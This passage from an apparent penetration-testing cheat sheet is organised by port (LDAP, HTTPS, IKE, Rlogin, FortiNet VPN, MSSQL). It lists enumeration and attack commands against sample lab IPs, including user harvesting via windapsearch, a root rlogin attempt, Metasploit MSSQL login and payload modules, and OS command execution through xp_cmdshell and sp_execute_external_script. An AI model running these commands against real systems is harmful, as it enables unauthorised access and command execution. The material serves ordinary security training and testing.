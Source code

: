 Check [AD](../post-exploitation/windows/ad/) section and this [LDAP](https://malicious.link/post/2022/ldapsearch-reference/) guide

```bash
jxplorer
ldapsearch -h 10.11.1.111 -p 389 -x -b "dc=mywebsite,dc=com"
python3 windapsearch.py --dc-ip 10.10.10.182 --users --full > windapsearch_users.txt
cat windapsearch_users.txt | grep sAMAccountName | cut -d " " -f 2 > users.txt
# Check # https://github.com/ropnop/go-windapsearch
```

## Port 443 - HTTPS

Read the actual SSL CERT to:

* find out potential correct vhost to GET
* is the clock skewed
* any names that could be usernames for bruteforce/guessing.

```bash
./testssl.sh -e -E -f -p  -S -P -c -H -U TARGET-HOST > OUTPUT-FILE.html
# Check for mod_ssl,OpenSSL version Openfuck
```

## Port 500 - ISAKMP IKE

```
ike-scan 10.11.1.111
```

## Port 513 - Rlogin

```
apt install rsh-client
rlogin -l root 10.11.1.111
```

## Port 541 - FortiNet SSLVPN

[Fortinet Ports Guide](https://help.fortinet.com/fos50hlp/54/Content/FortiOS/fortigate-ports-and-protocols-54/Images/FortiGate.png)

[SSL VPN Leak](https://opensecurity.global/forums/topic/181-fortinet-ssl-vpn-vulnerability-from-may-2019-being-exploited-in-wild/?\_\_cf\_chl\_jschl\_tk\_\_=42e37b31a0585f7dae3dbce18cafde7c39b81976-1578385705-0-AcuYzrPMO1OuMo59JSPYyzZjiXNbMAIl6sKiXwhQRbMUMZq1Kp3VmWqIVXWZdzTZgFCecXue1Z6xXxU-Rql\_GT\_ovKiar\_-i0CUCKFS85bfNXnUzuOuIwomXje-kH87mNbVHzzh9ediRfVWbJjwtO-ttLEYi7quczLlHQk38UqcumrARs77RrK2mj9zOb8Uwhv6av4QZ9od4fgAIl-F4Kff26MPQjs4LRHsgk5zH6RVwFMP8NdOnCrrzkkGH6\_R9Dtw89\_QtiOsH1nKB0hBDbtJ2O9AkkMDqw7tl1ip\_pVDfnw1lvaZtFq1sRqgYwpan-n6n9f58Xdjcj2UGFKdE32OS7Ete8X7RwXUV9FGUSOhAM5\_iK0kMNJg3mskrFVQz0lONaZVvFRdf\_1rp69J4oRVat1m7KIQEGpRDe4OvYUb7pfQkNKLcK5s\_lVIj2SAJQQ)

## Port 1433 - MSSQL

```bash
nmap -p 1433 -sU --script=ms-sql-info.nse 10.11.1.111
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
sqsh -S 10.11.1.111 -U sa
    xp_cmdshell 'date'
      go


EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'

https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
```
